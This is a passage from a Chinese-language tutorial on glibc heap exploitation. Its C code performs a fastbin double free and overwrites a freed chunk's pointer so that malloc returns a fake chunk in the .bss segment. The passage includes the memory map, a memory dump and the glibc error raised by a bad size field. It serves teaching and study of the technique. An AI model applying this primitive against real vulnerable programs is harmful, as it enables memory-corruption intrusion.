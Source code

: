 ```
    void *chunk_a,*chunk_b;
    
    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);
    
    free(chunk1);
    free(chunk2);
    free(chunk1);
    
    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系统上 chunk_b 输出的值会是 0x601090，这个值位于bss段中正是我们之前设置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:	0x0000000000000000	0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000	0x0000000000000000
0x6010a0:	            0x0000000000000000	0x0000000000000000
0x6010b0:	            0x0000000000000000	0x0000000000000000
0x6010c0:	            0x0000000000000000	0x0000000000000000
```
值得注意的是，我们在 main 函数的第一步就进行了`bss_chunk.size=0x21;`的操作，这是因为_int_malloc会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。
```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
./tst[0x400636]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
./tst[0x4004e9]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
```